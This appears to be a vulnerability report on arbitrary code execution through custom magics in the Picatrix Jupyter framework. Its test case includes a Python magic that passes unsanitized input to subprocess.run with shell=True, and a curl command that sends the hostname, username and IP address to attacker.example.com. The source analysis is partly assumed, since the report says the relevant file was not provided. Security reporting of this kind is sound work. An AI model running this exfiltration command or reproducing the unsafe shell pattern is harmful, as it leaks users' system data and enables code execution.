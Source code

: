 - Vulnerability Name: Arbitrary Code Execution via Malicious Custom Magics

- Description:
  1. A security analyst is tricked into opening and running a malicious Jupyter notebook.
  2. This notebook leverages Picatrix's functionality to register custom magics using the `@framework.picatrix_magic` decorator.
  3. The malicious notebook defines a custom magic that executes arbitrary Python code when invoked.
  4. When the security analyst unknowingly executes this malicious magic, arbitrary code is executed on their machine within the Jupyter notebook environment.

- Impact:
  - Critical: Arbitrary code execution on the security analyst's machine. This can lead to:
    - Data exfiltration: Sensitive data from the analyst's environment (including data being analyzed in the notebook) can be stolen.
    - System compromise: The attacker can gain full control of the analyst's machine, install malware, or perform other malicious actions.
    - Privilege escalation: If the analyst is running Jupyter with elevated privileges, the attacker can inherit those privileges.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
  - None: The framework is designed to allow users to define and register custom magics easily. There are no built-in mechanisms to restrict or sanitize the code within these custom magics.

- Missing Mitigations:
  - Code review and validation: Implement a mechanism to review and validate custom magics before registration. This could involve static analysis, sandboxing, or manual review by a trusted authority.
  - Restriction of magic registration: Implement a configuration option to disable or restrict the registration of custom magics altogether, especially in environments where untrusted notebooks might be used.
  - User awareness and education: Educate users about the risks of running untrusted Jupyter notebooks and custom magics. Warn users about the potential for arbitrary code execution.

- Preconditions:
  - The security analyst must have Picatrix installed and initialized in their Jupyter environment.
  - The analyst must open and execute a malicious Jupyter notebook containing a custom magic definition.
  - The analyst must execute the malicious custom magic, either intentionally or unintentionally (e.g., through auto-execution features of Jupyter).

- Source Code Analysis:
  - File: `/code/picatrix/lib/framework.py` (Not present in provided files, but assumed based on `/code/docs/AddingAMagic.md` and `/code/end_to_end_tests/basic_test.py`)
  - The `@framework.picatrix_magic` decorator (as described in `/code/docs/AddingAMagic.md` and used in `/code/end_to_end_tests/basic_test.py`) is used to register Python functions as Picatrix magics.
  - When a function is decorated with `@framework.picatrix_magic`, it becomes available as a line magic (`%magic_name`), cell magic (`%%magic_name`), and a function (`magic_name_func()`).
  - The code within the decorated function is executed directly when the magic or function is invoked in a Jupyter notebook cell.
  - There is no input sanitization or validation performed on the code within the custom magic function by the Picatrix framework itself.
  - Visualization:

```
User opens malicious notebook -> Notebook registers malicious magic using @framework.picatrix_magic -> User executes malicious magic (%malicious_magic or %%malicious_magic or malicious_magic_func()) -> Arbitrary Python code in malicious magic is executed.
```

  - File: `/code/end_to_end_tests/basic_test.py`
  - The `test_magic_registration` function demonstrates how a custom magic can be registered and executed within the testing environment.
  - The `MAGIC_DEFINITION` constant shows an example of a custom magic definition using `@framework.picatrix_magic`. This example can be adapted to execute arbitrary code.

- Security Test Case:
  1. Create a malicious Jupyter notebook (e.g., `malicious_notebook.ipynb`).
  2. In the first cell of the notebook, add the following Python code to define and register a malicious custom magic:

```python
from picatrix.lib import framework
import subprocess

@framework.picatrix_magic
def malicious_magic(data):
  """This is a malicious magic that executes arbitrary code."""
  subprocess.run(data, shell=True) # Vulnerability: Using shell=True and unsanitized input 'data'
  return "Malicious command executed!"

print("Malicious magic registered: %malicious_magic")
```

  3. Save the notebook and share it with the target security analyst (e.g., via email, shared drive, or public repository).
  4. The security analyst opens the `malicious_notebook.ipynb` in their Jupyter environment with Picatrix initialized and executes the first cell. This registers the `%malicious_magic`.
  5. In a new cell, the attacker instructs the analyst to (or automatically executes if possible) run the malicious magic with a command to exfiltrate data or execute arbitrary commands, for example:

```
%malicious_magic curl -X POST -d "$(hostname && whoami && ip a)" https://attacker.example.com/data_receiver
```

  6. Observe that the command provided to `%malicious_magic` is executed on the analyst's machine. In this example, system information (hostname, username, IP address) is exfiltrated to `https://attacker.example.com/data_receiver`. The attacker can replace this with more harmful commands.